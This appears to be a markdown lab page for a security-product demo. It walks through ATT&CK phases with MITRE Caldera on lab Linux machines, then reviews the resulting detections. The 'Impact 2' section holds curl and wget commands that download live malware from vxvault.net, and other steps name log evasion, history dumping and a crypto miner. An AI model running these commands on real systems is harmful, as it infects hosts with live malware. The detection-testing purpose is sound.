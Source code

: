 ```yaml
---
title: "Linux"
chapter: false
weight: 41
pre: "<b>4.1 </b>"
---
```

## Linux - Detection Mode
---

<b>Before you start this lab, make sure the C1WS Policy attached to the Linux Instance is the "demo > visionone > detection mode" policy.</b>

### ATT&CK Phases
#### Reconnaissance
This step was skipped because we know the target of our attack (Windows and Linux Instances)

---
#### Resource Development
We used Mitre Caldera to generate the payloads used to compromise our targets

---
#### Initial Access and Execution
We deployed the malicious payloads manually to the Windows and Linux Instances. In a Real-world scenario, we could have used a Malicious Email message, including the link to the malicious files. In this way, compromising the target computers.

---
#### Persistence
Using Mitre Caldera, you can deploy additional backdoors that will ensure you can keep accessing the affected computers in the future:

In our case, we can run a remote instruction on the affected Linux computer and deploy a secondary agent (bot).

{{< youtube id="926KXvQiQ-0" >}}

---
#### Privilege Escalation
Using Mitre Caldera, you can deploy the Technique "Weak executable files (T1574.010) - Locate and infect files with weak but executable perms". It will help to to expand the impact of this attack and get additional permissions on the affected OS.

{{< youtube id="NOQU4tKmqiQ" >}}

---
#### Defense Evasion
Using Mitre Caldera, you can deploy the Technique "Avoid logs (T1070.003) - Stop terminal from logging history". In this way, the instructions you are executing will not be logged by the OS, making hard to the SOC Team to investigate and track the malicious instructions executed on this attack.

{{< youtube id="pFkTQmuWyGw" >}}

---
#### Credential Access
Using Mitre Caldera, you can deploy the Technique "Dump history (T1552.003) - Get contents of bash history". You may find sensitive information with this technique.

{{< youtube id="2KH_YkmH_6A" >}}

---
#### Discovery
Using Mitre Caldera, you can deploy the Technique "Find System Network Connections (T1049) - Find System Network Connections". You may find additional targets for this attack (Lateral Movement for example).

{{< youtube id="CbS21y0QvD4" >}}

---
#### Lateral Movement
Under development..


---
#### Command & Control
You can use the same tatics used on the step "Persistence", or even using other customm tools to interact with the C&C Server.

---
#### Collection
Using Mitre Caldera, you can deploy the Technique "Find files (T1005) - Locate files deemed sensitive". Using this technique you can search for sensitive date hosted on the affected computers.

{{< youtube id="AREqI9QRxsQ" >}}

---
#### Exfiltration
Under development..

---
#### Impact 1
Using Mitre Caldera, you can deploy the Techniques "Crypto (Monero) Mining (T1496) - Download and execute Monero miner (xmrig) for 1 minute" and "Leave note (T1491) - Create a text file for the user to find". With this two techniques, you can create an impact that will affect the performance and expose the affected server to other risks, and also leave a note to tell the target of the attack about your intentions and what you have done so far.

{{< youtube id="zfGupkq1HVw" >}}

#### Impact 2
Using Mitre Caldera, you can deploy the following manual instruction. It will make the affected computer to download 0-day malwares from live repositories in the internet.

        curl http://vxvault.net/URL_List.php > urls.txt
        wget -i urls.txt --tries=1

{{< youtube id="ldIEFNi7EiE" >}}

---
## Reviewing the Detections 
Review your Vision One Portal (Risk Insights and XDR / Workbenchs and OAT) searching for the evidences of the instructions executed during this demo.

{{< youtube id="qf7pnUuLsK4" >}}